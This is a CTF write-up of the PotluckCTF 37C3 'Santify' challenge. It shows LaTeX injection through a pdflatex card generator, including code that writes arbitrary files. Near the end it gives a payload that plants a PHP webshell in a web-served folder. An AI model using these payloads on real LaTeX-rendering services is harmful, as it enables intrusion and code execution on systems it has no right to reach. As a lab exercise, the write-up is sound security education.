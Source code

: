 ```yaml
---
title: "Santify"
description: "I found this shop that claims to provide \"\"delivery via reindeer sleigh\"\". I ordered a few things, but the cards did not arrive on time! Please find out what went wrong.<br>Anyway, check out their web page<br>Note: Any accounts named ADMIN, BOT or similar are regular users and not part of the challenge, please ignore them"
pubDate: 2023-12-30
ctf: "PotluckCTF 37C3"
category: "rev"
author: "sealldev"
section: "CTFs"
image: "images/23-potluckctf37c3/icon.png"
---
```


**I didn't completely solve this challenge during the CTF, but got painfully close...**

The card creation page is the following:

![Card Creation](images/23-potluckctf37c3/santify_1.png)

The header text is of key importance, as it mentions `pdflatex`. LaTeX has some interesting capabilities that are listed nicely on PayloadAllTheThings such as [LaTeX Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/LaTeX%20Injection).

Injecting some math operation in LaTeX, I try to read a 'flag'...

![LFI Attempt](images/23-potluckctf37c3/santify_2.png)

... Fair enough.

I found that we have the capabilites to write files, by doing the following.

```latex
\newwrite\outfile
\openout\outfile=test.log
\write\outfile{test!}
\closeout\outfile
```

Looking at our LaTeX log were given where the files are uploaded, from there we can look at our uploaded file. Cool, now what...

We can't really 'read' the binary as LaTeX isn't very good at handling extended unicode without importing packages, and trying to run the command injection payloads fails as they are using the `-no-shell-escape` flag, which restricts usage of `/write18{cmd}`.

**This part I did not get during the competition.**

What I needed to do was write a PHP webshell, as the website is run on PHP which can be seen in file names in other portions of the site (index.php, send-card.php, render-LaTeX.php, etc.).

```latex
\newwrite\outfile
\openout\outfile=cmd.php
\write\outfile{<?php system("/app/readflag");}
\closeout\outfile
```

Now you visit the endpoint it was uploaded to (`/images/<random guid>/cmd.php`) you will see the flag.